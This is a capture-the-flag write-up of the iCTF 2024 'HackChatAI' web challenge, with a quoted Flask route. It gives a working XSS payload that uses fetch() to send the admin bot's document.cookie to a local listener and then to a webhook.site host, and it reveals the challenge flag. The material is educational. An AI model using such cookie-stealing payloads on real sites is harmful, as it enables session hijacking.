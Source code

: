 ```yaml
---
layout: post
title: iCTF 2024 Web Writeup - HackChatAI
date: 2024-11-23 04:04:06 -0400
categories: ctf writeup
---
```


{{ page.title }}
================

<p class="meta">November 23 2024 - Web Challenges - iCTF Writeup</p>

# iCTF

Recently, I competed in [iCTF](https://ictf.cs.ucsb.edu/) with several friends, as I was told there would be interesting and fun challenges. I was not disappointed! 

The 2024 iCTF is sponsored by the [ACTION NSF AI Institute](https://action.ucsb.edu/), and was organized by [Shellphish](https://shellphish.net/) and the [UCSB Women in Computer Science group](https://wics-ucsb.github.io).

# HackChatAI
## Why rely on humans for conversation when AI can handle it for you? 
## Author: Unknown
`https://ictf-under-hackchatai.chals.io`

## Step 1 - Initial Info

Let's take a look at the site! 

![playgame.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/playgame.png)

Upon hitting "Play Game", we're given a chat interfact. We can interact with an LLM, and we can message the bot. Ok cool. We're also given the source code entirely, so I'm going to spin the server up locally. 

![initial_interaction.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/initial_interaction.png)

## Step 2 - Looking at the code

Since I'm given the [source code]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/HackChatAI.zip), life is easy. I don't need to analyze the traffic with burp, I can implement my manual breakpoints, and I can see what's going on.

The code is a simple Flask app. The main part of the code is `app.py`,which spins up the server. Looking at this, we have a global variable named CTF_FLAG.

Tracing the pathway that CTF_FLAG is used, I see an admin() route that renders a template with the flag: `return render_template_string(admin_page_template, FLAG=CTF_FLAG, username="Admin", chat_history=chat_history)`

![admin_route.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/admin_route.png)
                                          
This is the only place that CTF_FLAG is used. I also see that chat_history is rendered in the template, which is something we can control as a user. Seeing this, my thought process is that this was an SSTI (server-side template injection) challenge.

## Interlude - Server-Side Template Injection

Server-Side Template Injection is a vulnerability that allows an attacker to inject code into a template that is rendered on the server. This can lead to RCE (Remote Code Execution) if the attacker is able to execute arbitrary code. They arise when user input is concatenated into templates rather than being passed in as data. While it's not as common as other web attacks, like SQL injection, local file inclusion, or XSS (Cross-Site Scripting), it's still a vulnerability that can be exploited, and is often overlooked by developers.

In this code, we're using Jinja for our templating engine, which is a common engine for Flask. After trying some SSTI payloads, I didn't really get much success. And even if we could do a template injection, access to the admin page was denied anyways.

![admin_denied.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/admin_denied.png)



[Portswigger's SSTI Article](https://portswigger.net/web-security/server-side-template-injection)

[More on Jinja SSTI](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

## Step 3 - Do I need a human? Maybe? Hopefully?

After trying some SSTI payloads with no luck, I decided to look deeper at the rest of the code. Specifically, how to trigger an admin page. While looking, I reread over the source code again, and implemented breakpoints to watch the pathways that the code took on execution. 

An interesting part of the code is the `send_message()` function. It performs a regex check for the text `i need a human` using the regex string `"i\s*need\s*a\s*human"`, and if it finds it, we enter a portion of the code that doesn't seem to be the most safely written. But, all it does is scan for those words in a string. Which means we can append more words to the string and still trigger the code to get the admin cookie. If we do this, we can get the admin cookie, neat! However, the problem lays in how to exfil the admin cookie, as the response won't contain it. 

```python
@app.route('/send_message', methods=['POST'])
@limiter.limit("60 per minute")
def send_message():
    global client
    message = request.json.get('message')
    play_token = request.cookies.get('play_token')
    logger.info(f"Received message: {message}, play_token: {play_token}")

    if not play_token:
        return jsonify({'error': 'Access denied: No play token provided'}), 403

    # Check word count
    word_count = len(message.split())
    if word_count > 35:
        return jsonify({'response': 'Do you think you smart haha :)'})

    with sqlite3.connect(DATABASE) as conn:
        cursor = conn.execute(VALIDATE_PLAY_TOKEN, (play_token,))
        if cursor.fetchone():
            # Save the user's message
            conn.execute(SAVE_USER_MESSAGE,
                         (play_token, message, 0))
            conn.commit()

            if re.match(r"i\s*need\s*a\s*human", message, re.IGNORECASE):
                # Get the admin cookie from the database associated with the play token
                cursor = conn.execute(GET_ADMIN_COOKIE, (play_token,))
                try:
                    admin_cookie = cursor.fetchone()[0]
                    isLoaded = load_admin_page(admin_cookie=admin_cookie, play_token=play_token)
                    logger.info(f" web driver successfully loaded {isLoaded}")
                except Exception as e:
                    logger.error(f"Error loading web driver: {e}")
                    return jsonify({'response': 'Apologies, No human support available'})
                return jsonify({'response': 'No human support available'})
            try:
                response_message = get_answer(client=client, question=message)
            except Exception as e:
                load_dotenv()
                client = OpenAI(api_key=API_KEY, base_url=BASE_URL)
                response_message = get_answer(client=client, question=message)

            # Save the server's response
            conn.execute(SAVE_SERVER_MESSAGE,
                         (play_token, response_message, 1))
            conn.commit()

            return jsonify({'response': response_message})
        else:
            return jsonify({'error': 'Access denied: Invalid play token'}), 403
```


## Step 4 - Exfiltrating the Admin Cookie Locally

After looking over the other code, I noticed that in `admin_page_template.py`, which is called by `render_template_string(admin_page_template, FLAG=CTF_FLAG, username="Admin", chat_history=chat_history)`, we have this codeblock in the script for the admin page template

![admin_template.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/admin_template.png)

Huh. chat[0] (the first message in chat history) is marked as "safe", which means it won't be automatically escaped by Jinja. This means we can inject scripts in the first message we send and they will execute. I set up a local netcat listener, and sent a payload which should exfiltrate the admin cookie.

`i need a human <script>fetch('http://127.0.0.1:4444', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>`

![xss_1.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/xss_1.png)

And lo and behold, it worked. I got the admin cookie.

![xss_3.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/xss_2.png)

## Step 5 - Exfiltrating the Admin Cookie Remotely

Now that I was able to obtain the admin cookie locally, I needed to exfiltrate it remotely. I set up a simple listener using [webhook.site](https://webhook.site), and sent the same payload.

![xss_3.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/xss_3.png)

And our listener received the admin cookie.

![xss_4.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/xss_4.png)

Cool. With this cookie, I think I can now access the admin page. To test this out, I just need to set the cookie in my browser and navigate to the admin page.

![admin_cookie.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/admin_cookie.png)

And there we go. The flag is `ictf{well_d0n3_on_s0lv1ng_th1s_ch4ll3ng3_hackchatai24}`

![flag.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/flag.png)

This was a challenge masquerading as an SSTI challenge, but was actually an XSS challenge.

## Conclusion and Takeaways

Using source code, sometimes you'll find pathways that don't actually work as intended. Also, using safe in Jinja should only be used on data that is known to be safe, and not on user-controlled data.